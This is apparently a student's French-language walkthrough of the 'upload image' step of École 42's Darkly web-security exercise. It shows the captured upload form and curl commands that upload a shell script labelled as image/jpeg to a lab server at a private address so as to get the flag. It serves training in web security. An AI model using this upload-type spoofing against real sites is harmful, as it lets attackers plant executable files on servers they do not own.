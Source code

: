 # Darkly - École 42

## 10. Upload image

- sur la page http://10.12.200.47/?page=upload

- F12 > Network

- uploader une image

- dans Network, on a une ligne `?page=upload`

- Clique dessus > Payload > form data > view source/paersed :

```
------WebKitFormBoundarybgZxwZUpl43L04OA
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundarybgZxwZUpl43L04OA
Content-Disposition: form-data; name="uploaded"; filename="10-tchoupi.jpg"
Content-Type: image/jpeg


------WebKitFormBoundarybgZxwZUpl43L04OA
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundarybgZxwZUpl43L04OA--
```

- DEPUIS LE DOSSIER RESSOURCES :

```
clear;
curl -X POST \
  -F "MAX_FILE_SIZE=100000" \
  -F "uploaded=@./10-tchoupi.jpg;type=image/jpeg" \
  -F "Upload=Upload" \
  "http://10.12.200.47/?page=upload"

```

on obtient :

```
<section id="main" class="wrapper">
		<div class="container" style="margin-top:75px">
			<pre>/tmp/10-tchoupi.jpg succesfully uploaded.</pre>

```

on modifie la requete pour envoyer n'importe quel fichier

```

clear;
curl -X POST \
 -F "MAX_FILE_SIZE=100000" \
 -F "uploaded=@./10-script.sh;type=image/jpeg" \
 -F "Upload=Upload" \
 "http://10.12.200.47/?page=upload" | grep -i "flag"


```
